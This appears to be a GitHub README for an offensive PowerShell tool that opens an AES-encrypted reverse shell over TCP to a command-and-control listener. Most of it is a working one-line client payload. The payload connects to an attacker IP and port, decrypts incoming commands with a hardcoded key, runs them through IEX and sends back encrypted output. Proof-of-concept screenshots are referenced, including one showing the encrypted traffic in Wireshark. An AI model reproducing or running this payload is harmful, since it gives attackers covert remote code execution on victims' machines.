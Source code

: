 
### Reverse Encrypted Shell over TCP (AES 256-bit) using PowerShell SecureString: ###

- Attacker (C2-Server Listener):

PS> .\Server.ps1

- Target (Client):

PS> $Key=(226,183,97,6,17,176,21,164,211,64,197,229,220,92,207,182,192,132,103,202,131,244,142,31,82,141,162,94,187,176,23,192);$Client=New-Object System.Net.Sockets.TCPClient('10.0.0.1',4444);$Stream=$Client.GetStream();[byte[]]$Bytes=0..65535|%{0};while(($Read=$Stream.Read($Bytes, 0, $Bytes.Length)) -ne 0){;$Command=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($Bytes,0, $Read);$DeCode=$Command | ConvertTo-SecureString -Key $Key;$OutPut=(IEX([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($DeCode))) 2>&1 | Out-String);$EnCode=ConvertTo-SecureString $OutPut -AsPlainText -Force | ConvertFrom-SecureString -Key $Key;$SendByte=([text.encoding]::ASCII).GetBytes($EnCode);$Stream.Write($SendByte,0,$SendByte.Length);$Stream.Flush()};$Client.Close();Exit

### PoC: ###

- Reverse Encrypted Shell over TCP (AES 256-bit) PowerShell Execution (C2-Server Listener & Client):

![alt text](/PoC1.jpg)

- Reverse Encrypted Shell over TCP (AES 256-bit) Encrypted Traffic (WireShark):

![alt text](/PoC2.jpg)
